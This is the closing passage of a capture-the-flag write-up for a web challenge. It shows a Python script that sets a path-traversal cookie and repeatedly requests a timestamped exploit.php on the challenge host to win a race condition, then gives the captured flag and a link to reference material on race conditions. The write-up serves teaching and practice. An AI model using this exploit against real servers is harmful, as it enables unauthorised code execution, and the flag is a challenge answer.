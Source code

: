 and ```metadata_inp.py``` keeps calling ```exploit.php```
```python
import time
import requests

session = requests.Session()
session.cookies.set('user', '../../var/www/html/a')

timestamp = int(time.time()) + 5
while 1:
    # r = session.get('http://localhost:1337/a_{}_exploit.php'.format(timestamp))
    r = session.get('http://13.215.248.36:30301/a_{}_exploit.php'.format(timestamp))
    print(timestamp)
    if (r.status_code == 200):
        print(r.text)
        break
```

The flag is
```
BKSEC{Th!s_1s_just_the_st@rt_0f_the_r@ce_56a7ea5707919380ae4685b4adaba65e}
```

## Summarization

- [Race conditions](https://portswigger.net/web-security/race-conditions)